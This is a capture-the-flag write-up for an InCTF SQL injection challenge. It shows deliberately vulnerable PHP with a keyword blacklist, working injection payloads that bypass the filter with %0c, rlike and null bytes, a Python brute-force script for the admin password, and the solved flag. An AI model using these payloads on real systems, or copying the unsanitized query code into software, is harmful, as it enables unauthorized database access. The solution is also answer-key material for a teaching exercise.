



# back_to_sql

This is a 400 pointer challenge I made for the InCTF-National round.

you can get the source code from [here](https://github.com/chsantoshkumar211/CTFs/tree/master/InCTF/back_to_sql)

```php
<?php
error_reporting(0); 
include "./config.php"; 
include "./flag.php"; 
if(isset($_GET['bypass']) && !iconv("UTF-8","UTF-8//IGNORE",$_GET['bypass'])) exit(":P LOL!!");
if(isset($_GET['bypass']) && strlen($_GET['bypass'])>1) exit(":(");
if(preg_match('/ |\n|\r|\t/i', $_GET['bypass'])) exit(":(");
$black_list = "/admin|guest|&|limit|by|as|substr|mid|or|not|ascii|char|union|select|greatest|%00|\"|benchmark|"; 
$black_list .= "=|_|in|<|>|sqlauth| |-|_|\.|\(\)|regexp|and|if|database|where|concat|insert|havin|#|0x|0b|sleep/i"; 
if(preg_match($black_list, $_GET['pass'])) exit(":P");
if(preg_match('/\b=\b/i', $_GET['pass'])) exit("No =");
if(preg_match('/\bregexp\b/i', $_GET['pass'])) exit("No regexp");
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
$query = "select user from back_to_sql{$_GET['bypass']}where user='guest' and pw='{$_GET[pass]}'"; 
$result = @mysql_fetch_array(mysql_query($query)); 
if($result['user'])
{
	echo "<h1>Hello ".$result['user']."</h1>";
}
$admin_info =  @mysql_fetch_array(mysql_query('select * from back_to_sql where user="admin"')); 
echo "<h2>query : {$query}</h2>";
if(($admin_info['pw']) && $admin_info['pw']===$_GET['pass']) 
{ 
    echo $flag;
} 
highlight_file(__FILE__);
?> 
```

## Solution

#### $_GET['bypass']
So on looking to the source code, we can understand that we have to give a space as "bypass" between "back_to_sql" and "where" and the length of that argument should not be greater that one. So for that, we can use ```%0c```  or  ```%0b```.

#### $_GET['pass']
Coming to "pass" here is the place where we have to inject our query.
we can use ['](single quote). 

```
pass='%0c||%0c1;%00
```



gives us "welcome guest" so we need to query the database in the place of [1] but we can't use [like, regexp and =].

As Einstein says 
```
Look deep into nature, and then you will understand everything better.
```
If you observe this snippet closely you can understand that it's just filtering the work "like" alone but if the word "like" is concatenated with any other character this snippet will not work E.g. ``` rlike ```
```PHP
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
```

Now we can use rlike to brute force the admin password by querying the database in the place of [1]. So the injection : 
```
pass='%0c||%0c(pw%0crlike%0c'^1');%00
.
pass='%0c||%0c(pw%0crlike%0c'^3');%00
```


for  ```3```  the page responds back with "Hello admin".Hence our injection is working, So let's write a python script to brute force the admin password

```python
import requests
pay='1234567890abcdefghijklmnopqrstuvwxyz'
url = "http://52.66.243.74?bypass=%0c&pass='%0c||%0c(pw%0crlike%0c'^"
password = ""
for i in range(0,21):
    for j in pay:
        re = requests.get(url+password+str(j)+"');%00")
        if "Hello admin" in re.text:
            password = password + str(j)
print(password)
```

This gives us the admin password as : 3c721982f3edf4d95ced



On submittig the password you will get the flag.

flag : ```inctf{byp4s5ing_filt3r5_is_v3ry_3asy!!}```